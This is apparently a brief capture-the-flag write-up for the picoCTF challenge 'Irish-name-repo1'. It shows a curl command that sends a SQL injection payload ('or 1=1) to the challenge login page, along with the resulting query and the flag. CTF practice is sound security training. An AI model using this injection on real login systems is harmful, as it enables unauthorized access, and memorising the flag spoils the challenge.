 # Irish-name-repo1

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Pistas
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

## Solucion 
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password='or 1=1;&debug=1"
<pre>username: admin
password: 'or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p> 
```


## Notas Adicionales

## Referencias